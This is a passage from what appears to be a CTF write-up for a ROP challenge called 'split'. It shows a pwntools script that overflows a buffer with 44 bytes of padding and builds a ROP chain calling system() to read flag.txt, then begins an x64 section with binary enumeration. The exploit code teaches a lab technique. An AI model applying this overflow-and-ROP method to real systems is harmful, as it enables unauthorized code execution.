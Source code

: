 ```python
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
p = process()

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

# How many bytes to overwrite the EIP?
padding = 44

# Locate functions/strings we need for our payload
binCat_addr = next(elf.search(b'/bin/cat'))

# locate the target address for ("/bin/cat")
info("%#x /bin/cat", binCat_addr)

# Get ROP gadgets
rop = ROP(elf)

# Create ROP chain calling system() and replace with "/bin/cat flag.txt"
rop.system(binCat_addr)

# Inject ROP chain at the correct offset
payload = fit({padding: rop.chain()})

# Save payload to file
f = open("payload", "wb")
f.write(payload)

# Send payload
p.sendlineafter(">", payload)
p.recvuntil('Thank you!\n')

#Obtain flag
flag = p.recv()
success(flag)
```

## x64 Exploitation

### Enumeration

`file`:

{% code overflow="wrap" %}
```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```
{% endcode %}

